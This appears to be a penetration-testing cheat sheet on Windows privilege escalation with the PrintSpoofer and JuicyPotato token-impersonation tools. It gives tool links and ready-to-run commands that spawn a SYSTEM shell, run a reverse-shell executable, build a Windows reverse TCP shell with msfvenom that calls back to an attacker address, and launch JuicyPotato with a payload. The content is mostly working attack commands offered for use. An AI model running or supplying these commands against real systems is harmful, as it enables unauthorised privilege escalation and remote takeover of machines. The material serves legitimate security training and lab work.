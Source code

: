 
# 10. PrintSpoofer / JuicyPotato
## 1. PrintSpoofer
### How it works
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

### Main GitHub
- https://github.com/dievus/printspoofer

### how to exploit
```powershell
# You need to have the "SeImpersonatePrivilege" OR "SeAssignPrimaryTokenPrivilege" privilege
C:\PrivEsc\PrintSpoofer.exe -i -c cmd
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

## 2. JuicyPotato
### Main Github
- [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)  

### Get a list of CLSID
- [https://github.com/ohpe/juicy-potato/tree/master/CLSID/](https://github.com/decoder-it/juicy-potato/tree/master/CLSID/Windows_7_Enterprise)  

### Get an already x86 bit compiled of Juicy potato
- [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)  
  
### How to use it  
Create a reverse tcp shell for windows using msfvenom:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=10000 -f exe -o shell.exe
```

```powershell
JuicyPotato.exe -l 1337 -p <payload_to_execute.exe> -t * -c {<CLSID>}
```

	